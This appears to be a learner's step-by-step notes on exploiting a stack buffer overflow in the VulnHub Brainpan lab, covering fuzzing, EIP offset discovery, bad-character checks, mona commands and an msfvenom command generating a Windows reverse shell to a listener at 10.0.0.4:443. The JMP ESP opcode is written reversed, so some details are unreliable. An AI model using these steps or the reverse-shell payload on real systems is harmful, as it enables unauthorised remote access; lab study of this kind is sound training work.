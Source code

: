 #bufferOverflow

This is my first BufferOverflow exerise - VulnHub Brainpan

Tool: Immunity Debugger

Step 1 - Find the EIP 
  using fuzzing to locate the buffer overflow point - the EIP address
  
  Create an array of buffers, from 1 to 5900, with increments of 100. Send the buffer to the 
  
  target until received system crash  and checked the size of buffers that made the system crash

  Program: 1-fuzzer_eip.py
  
Step 2 Control the EIP address 
 
  2.1 by binary tree analysis

  2.2 using metasploit
  Generate a pattern of string and send to the system. check the EIP 
  
    locate the pattern_create
    
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 9999
    
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 9999 -q 39694438
    
  Program: 2-controlling-eip.py
  
  
   
Step 3 Locating Space and prepare the shellCode

  Finding the ESP addess 
  
  buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
  
  Program: 2-controlling-eip.py

Step 4 Check Bad Characters

  Send \x01...\xff to the system and check which char(s) have been truncated
  
  Program: 3-controlling-eip.py
  

Step 5 check any memory protections such as DEP adn ASLR

  Immunity Debugger Command: !mona modules
  

Step 6 Locate the JMP ESP

  /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
  
  JMP ESP address => \xe4\xff
  
  Immunity Debugger Command: !mona find -s "\xe4\xff" -m <program name>
  
  
Step 7 Generating ShellCode using Metasploit

  Metasploit Command: msfvenom -l payloads
  
  Metasploit Command: msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
  
  -f format
  
  -e encode
  
  -b exclude character 
 
 Step 8 Sending the ShellCode 
 
  Program: 4-expolit-lin.py
  
  Program: 4-expolit-win.py
 
  
